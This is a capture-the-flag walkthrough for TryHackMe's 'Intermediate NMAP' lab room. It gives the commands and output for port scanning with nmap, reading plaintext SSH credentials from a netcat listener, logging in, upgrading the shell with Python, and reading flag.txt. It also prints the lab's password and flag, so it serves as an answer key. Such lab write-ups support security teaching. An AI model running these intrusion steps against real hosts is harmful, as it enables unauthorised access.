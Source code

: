 # Intermediate NMAP

## Summary

[Intermediate NMAP](https://tryhackme.com/room/intermediatenmap "Intermediate NMAP Room On TryHackMe") is a begginer friendly CTF hosted by [TryHackMe](https://tryhackme.com/ "TryHackMe Official Website") and created by [CMNatic](https://github.com/CMNatic "CMNatic GitHub Page").

This CTF requires basic knowledge of:

* Port scanning with tools like ```NMAP```.
* Read data from a network with tools like ```Netcat```.
* Connecting to a remote server via ```SSH```.
* Basic Linux commands such as ```ping```, ```which```, ```ls```, ```cd```, and ```cat```.
* (**OPTIONAL**) Upgrade a dumb shell using ```python```.

---

## Contents

* [Getting Started](#getting-started "Jump To Getting Started")
* [Port Scan](#port-scan "Jump To Port Scan")
* [Finding Credentials](#credentials "Jump To Credentials")
* [Logging Onto Remote Server](#ssh "Jump To SSH")
* [Upgrading Dumb Terminal](#upgrade-terminal "Jump To Upgrade Terminal")
* [Finding The Flag](#flag "Jump To Flag")

---

## Getting Started

As always we start off by pinging the target IP Address to make sure the host is up and running.

```
$ ping <IP_Address>

PING <IP_Address>(<IP_Address>) 56(84) bytes of data.
64 bytes from <IP_Address>: icmp_seq=1 ttl=61 time=160 ms
64 bytes from <IP_Address>: icmp_seq=2 ttl=61 time=160 ms
64 bytes from <IP_Address>: icmp_seq=3 ttl=61 time=159 ms
64 bytes from <IP_Address>: icmp_seq=4 ttl=61 time=160 ms

--- <IP_Address> ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3003ms
rtt min/avg/max/mdev = 159.325/159.711/159.947/0.232 ms
```

[Back To Top](#intermediate-nmap "Jump To Top")

---

## Port Scan

Once we've verified the machine is active we can move on to a port scan using nmap in aggressive mode (-A) on **ALL** ports (-p-). This will return open ports, services, as well as other useful information.

```
$ nmap -p- -A <IP_Address>

Nmap scan report for <IP_Address>
Host is up (0.16s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
2222/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
31337/tcp open  Elite?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NULL, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
|     In case I forget - user:pass
|_    ubuntu:Dafdas!!/str0ng

...[REDACTED FOR BREVITY]...
```

After running the port scan we'll see 3 open ports.

* ```Port 22``` - SSH (Secure Shell)
* ```Port 2222``` - SSH (Secure Shell)
* ```Port 31337``` - NetCat Listener

Under the results for ```Port 31337``` we'll also see repeated mentions of the SSH login credentials.

[Back To Top](#intermediate-nmap "Jump To Top")

---

## Credentials

There are three ways we can get the ```SSH``` login credentials for the target machine.

1. Reading the results from the ```NMAP``` scan performed above.
2. Using the browser to visit ```http://<IP_Address>:31337/```.
3. Using ```Netcat``` with the following command, ```nc <IP_Address> 31337```.

```
$ nc <IP_Address> 31337

In case I forget - user:pass
ubuntu:Dafdas!!/str0ng
```

After doing any of the above steps we'll get the credentials ```ubuntu:Dafdas!!/str0ng```.

[Back To Top](#intermediate-nmap "Jump To Top")

---

## SSH

Now that we have the login credentials we can connect to the remote target via ```SSH``` with the username ```ubuntu``` and the password ```Dafdas!!/str0ng```.

```
$ ssh ubuntu@<IP_Address>

ubuntu@<IP_Address>'s password: Dafdas!!/str0ng
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.13.0-1014-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

$
```

[Back To Top](#intermediate-nmap "Jump To Top")

---

## Upgrade Terminal

Now that we've logged in we can see that we're working on a dumb terminal. We can make things easier for us by upgrading the terminal with ```Python```. But first we should make sure if ```Python``` is on the target system. We can do this by using the linux ```which``` command followed by the executable file name we're looking for. In this case we're looking for any python version, so the command will look like this...

```
$ which python python2 python3

/usr/bin/python3
```

Now that we've verified what version of Python is on the target system we can use the following command to upgrade the shell...

```python3 -c 'import pty;pty.spawn("/bin/bash")';```

[Back To Top](#intermediate-nmap "Jump To Top")

---

## Flag

Now that the terminal has been upgraded we can start looking for the flag. We'll start by checking where we are with ```pwd``` and listing all the contents in the current directory with ```ls -la```.

```
ubuntu@f518fa10296d:~$ pwd
/home/ubuntu

ubuntu@f518fa10296d:~$ ls -la
total 28
drwxr-xr-x 1 ubuntu ubuntu 4096 Feb 20 23:21 .
drwxr-xr-x 1 root   root   4096 Mar  2  2022 ..
-rw-r--r-- 1 ubuntu ubuntu  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 ubuntu ubuntu 3771 Feb 25  2020 .bashrc
drwx------ 2 ubuntu ubuntu 4096 Feb 20 23:21 .cache
-rw-r--r-- 1 ubuntu ubuntu  807 Feb 25  2020 .profile
```

So there's nothing interesting in our current directory. Our next step is to check what other users exist in the home directory.

```
ubuntu@f518fa10296d:~$ ls -la /home
total 20
drwxr-xr-x 1 root   root   4096 Mar  2  2022 .
drwxr-xr-x 1 root   root   4096 Mar  2  2022 ..
drwxr-xr-x 1 ubuntu ubuntu 4096 Feb 20 23:21 ubuntu
drwxr-xr-x 2 root   root   4096 Mar  2  2022 user
```

Next we can list all contents in the other users account, where we'll find a file named ```flag.txt```.

```
ubuntu@f518fa10296d:~$ ls -la /home/user

total 16
drwxr-xr-x 2 root root 4096 Mar  2  2022 .
drwxr-xr-x 1 root root 4096 Mar  2  2022 ..
-rw-rw-r-- 1 root root   38 Mar  2  2022 flag.txt

```

After we ```cat``` the file we'll finally have our flag.

```
ubuntu@f518fa10296d:~$ cat /home/user/flag.txt

flag{251f309497a18888dde5222761ea88e4}
```

[Back To Top](#intermediate-nmap "Jump To Top")
